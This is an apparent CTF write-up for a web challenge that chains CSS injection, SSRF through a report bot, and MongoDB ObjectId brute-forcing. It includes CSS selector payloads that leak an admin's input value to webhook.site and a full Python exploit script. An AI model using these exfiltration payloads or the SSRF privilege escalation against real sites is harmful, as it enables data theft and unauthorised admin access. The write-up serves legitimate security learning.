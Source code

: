 ```yaml
---
ai_date: 2025-04-27 05:15:05
ai_summary: CSS Injection used to find flag characters, followed by SSRF to gain admin rights and find flag ID, then brute-forced flag using CSS rules
ai_tags:
  - css-injection
  - ssrf
  - brute-force
created: 2024-07-27T02:55
description: I do love CSS injection
points: 360
solves: 15
tags:
  - css-injection
updated: 2025-07-14T09:46
---
```


> Color your username colorful!

## First Part

To access the admin's username, we can use the value of edit page's `<input>`.
`/post/edit/{pid}`

```html
<p>Author: <input class="author" type="text" value="{{author.username}}" disabled></p>
<p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
```

### CSS Injection

To do this I decided to use CSS selectors, because `xss` has prevented naïve XSS methods.

```css
input.user[value^="DEAD{flag_"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_');
}
```

If I received a request, that means the flag indeed starts with that sequence, we can also use multiple rules like this each with a different url query so I would know which rule in particular activated.

```css
input.user[value^="DEAD{flag_a"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_a');
}
input.user[value^="DEAD{flag_b"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_b');
}
input.user[value^="DEAD{flag_c"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_c');
}
```

After we receive a request, we update the payload with the new found char, and guess the next char.

### Payload

We will register a new account for every attempt, and add multiple CSS rules checking multiple "next character".

The payload is placed inside `personalColor`, as we can see, that's the only place where triple bar (i.e. no escape) is used.

```css
.author {
    color: {{{ author.personalColor }}}
}

.user {
    color: {{{ user.personalColor }}}
}
```

The backend uses `xss` library which will escape all occurrences of `<>` and I think it is not possible to exit the `<style>` tag.
## Second Part

To view notices we have to be admins, we can make the report bot grant us admin rights.

This is a simple SSRF to `https://TARGET/admin/report?url=http://localhost:1337/admin/grant?username=USERNAME`.

After logging out and logging in again, we can now see the notice page, where we can find the mongoose id of the two entries sandwiching the flag.

`66a4b8f9d40a5a2b039f2d68 66a4b8ffd40a5a2b039f2d6a`
### Find flag's id
But flag's id is hidden, how would we find it?

```js
await delay(randomDelay());
await db.notices.insertOne({ title: "asdf", content: "asdf" });

await delay(randomDelay());
await db.notices.insertOne({ title: "flag", content: "FAKE_FLAG}" });

await delay(randomDelay());
await db.notices.insertOne({ title: "qwer", content: "qwer" });
```

Mongoose ids are actually encoded timestamps, so by exploring all "in-between" values, we can find the flag's id.
## Solve Script

To solve the first part, you have to start run the script every time you add a new character.

I've heard of easier & faster recursive `@import` methods but thought this is simpler.

```python
import urllib.parse
import re
import string
import random
import requests


def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))


target = "39c1490373bbf326a5023003.deadsec.quest"


def register(s, user, passw, payload):
    s.post(f"https://{target}/auth/register", json={"username": user,
                                                    "password": passw,
                                                    "personalColor": payload})


def login(s, user, passw):
    r = s.post(f"https://{target}/auth/login", json={"username": user, "password": passw})
    s.cookies.set('accessToken', r.json()['accessToken'])


def gain_admin(s, user):
    r = s.get(f"https://{target}/admin/report?url=http://localhost:1337/admin/grant?username={user}").json()
    print("gain_admin", r)


def notice_ids(s):
    r = s.get(f"https://{target}/admin/notice/").text
    g = re.findall(r"/admin/notice/([a-f0-9]+)", r)
    id1, id2 = g
    print("found ids", id1, id2)
    d1 = int(id1[:8], 16)
    d2 = int(id2[:8], 16)
    p1 = int(id1[8:], 16)
    p2 = int(id2[8:], 16)
    print("trying a total of", (d2-d1+1)*(p2-p1+1), "combinations")  # probably not need that many
    for _1 in range(d1, d2+1):
        for _2 in range(p1, p2+1):
            try:
                r = s.get(f"https://{target}/admin/notice/{_1:08x}{_2:016x}").text
                if "flag" in r:
                    f = re.search(r"<div class=\"post-content\">([^<]+)", r).group(1).strip()
                    print("flag part 2", f)
            except:
                pass


def report_post(s):
    pid = s.get(f"https://{target}/post/all").json()[0]['_id']
    url = f"http://localhost:1337/post/edit/{pid}"
    s.get(f"https://{target}/admin/report?url={urllib.parse.quote(url)}")


def make_post(s):
    s.post(f"https://{target}/post/write", json={"title": "test", "content": "test"})


def str_to_css_hex(s):
    special_characters = r'[_]'
    return re.sub(special_characters, lambda match: f'\\{ord(match.group(0)):04x}', s)


def tryFlag(pres):
    s = requests.session()
    try:
        print("trying", pres)
        user = id_generator(7)
        passw = id_generator(7)
        _pres = '\n'.join([f"""input.user[value^="{pre}"]{{
background: url('https://webhook.site/?prefix={urllib.parse.quote(pre)}');
}}""" for pre in pres])
        payload = f"""
#000;}}
{_pres}
*{{""".strip()
        register(s, user, passw, payload)
        login(s, user, passw)
        make_post(s)
        report_post(s)
        print("done", pres)
    except Exception as e:
        print('error!', e)
        tryFlag(pres)
        return None


def extendFlag(flag_pre):
    w_size = 25
    for I in range(0, len(string.printable), w_size):
        chrs = [string.printable[I+i] for i in range(min(w_size, len(string.printable)-I))]
        pres = [str_to_css_hex(flag_pre+c) for c in chrs]
        random.shuffle(pres)
        tryFlag(pres)


def second_part():
    s = requests.session()
    register(s, "kumo", "kumo", "#000")
    login(s, "kumo", "kumo")
    print("login")
    gain_admin(s, "kumo")
    s.cookies.clear()
    login(s, "kumo", "kumo")
    notice_ids(s)


# extendFlag("DEAD{")
second_part()   # c010rful_w3b_with_c55}
```

```flag
DEAD{Enj0y_y0ur_c010rful_w3b_with_c55}
```

## Failed Attempts

- Using selection hash `#:~:text={urllib.parse.quote(flag)}` didn't work on remote for some reason, worked on local browser.
- Using svg ligatures generated fonts, and look for scrollbars also didn't work for some reason, the scrollbar selector always activates.
- I spent 90% of the time trying to leak the view page, and totally forgot the edit page has a input element.